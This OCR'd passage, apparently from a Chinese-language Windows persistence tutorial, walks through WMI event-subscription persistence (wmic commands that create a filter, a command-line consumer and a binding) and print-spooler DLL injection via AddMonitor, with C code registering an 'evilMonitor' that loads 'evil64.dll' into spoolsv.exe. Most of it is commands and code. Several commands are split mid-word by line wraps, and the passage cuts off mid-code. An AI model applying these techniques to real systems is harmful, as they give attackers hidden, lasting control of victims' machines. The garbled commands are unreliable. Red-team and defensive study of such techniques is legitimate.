 ```cmd
# Usage
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="筛选器的名称"
, EventNameSpace="事件名称空间",QueryLanguage="WQL", Query="SELECT * FROM __Instance
ModificationEvent WITHIN 120 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82"
, EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __Instance
ModificationEvent WITHIN 120 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
```

Step 2

```cmd
# Usage
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="消费者的名称", ExecutablePath="可执行文件路径",CommandLineTemplate="命令行参数模板"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="B
otConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
```

- `/NAMESPACE:"\\root\subscription"`: 指定 WMI 命名空间为 "\root\subscription"
- `PATH CommandLineEventConsumer CREATE`: 创建一个名为 "CommandLineEventConsumer" 的对象，该对象是命令行事件消费者
- `Name="BotConsumer23"`: 设置消费者的名称为 "BotConsumer23"
- `ExecutablePath="C:\Windows\System32\notepad.exe"`: 指定可执行文件路径为 "C:\Windows\System32\notepad.exe"
- `CommandLineTemplate="C:\Windows\System32\notepad.exe"`: 指定命令行参数模板为 "C:\Windows\System32\notepad.exe"

Step 3

```cmd
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter
="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"B
otConsumer23\""
```

## 0x02 AddMonitor()

打印后台处理程序服务负责管理 Windows 操作系统中的打印作业。与服务的交互是通过 Print Spooler API 执行的，该 API 包含一个函数 ( **AddMonitor** )，可用

于安装本地端口监视器并连接配置、数据和监视器文件。该函数能够将 DLL 注入**spoolsv.exe**进程，并通过创建注册表项

### 编译注册

```c
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}


#include "Windows.h"
 
int main() {
    MONITOR_INFO_2 monitorInfo;
```